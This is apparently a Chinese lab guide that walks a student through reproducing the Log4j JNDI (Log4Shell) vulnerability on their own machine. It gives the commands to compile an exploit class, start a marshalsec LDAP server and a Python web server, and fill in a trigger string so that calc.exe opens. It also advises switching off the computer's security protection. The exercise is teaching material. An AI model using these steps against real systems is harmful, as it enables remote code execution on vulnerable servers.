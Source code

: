 > 提示1：可以使用 Java 的 Runtime.getRuntime().exec() 方法，该方法用于调用外部可执行程序或系统命令。

> 提示2：Windows 系统打开计算器的命令是 `calc.exe`

+ 将攻击脚本编译为 .class 文件

```
javac Exploit.java
```

+ 使用3.3中提到的 marshalsec 反序列化工具，在 marshalsec 的 target 目录下启动一个 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```
> 如果这一步报错提示端口被占用，可通过 `netstat -ano | findstr "port_number"` 查找占用进程，不重要的进程可以直接 kill。如果查找不到占用的进程，参考[这篇博客](https://blog.csdn.net/m0_47696151/article/details/117785566)。

+ 在 Exploit.class 文件所在目录下启动一个 web 服务，此处建议使用 python 命令启动 web 服务

```
python -m http.server 8100
```

> 如果为python2则命令为 python -m SimpleHTTPServer 8100，如果本地同时有 python2 和 python3，可以使用命令 python3 -m http.server 8100

+ 触发漏洞打开计算器，请补充以下代码

```java
public class Log4j {
    private static final Logger LOGGER = LogManager.getLogger(Log4j.class);
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        //TODO: fill in the "" to trigger Log4j
        LOGGER.error("");
    }
}
```

+ 执行代码触发漏洞，应当打开本地电脑的计算器

> 注意：此处需要关闭电脑的安全防护，否则可能出现电脑自动帮你拦截并删除恶意 class 文件的异常情况

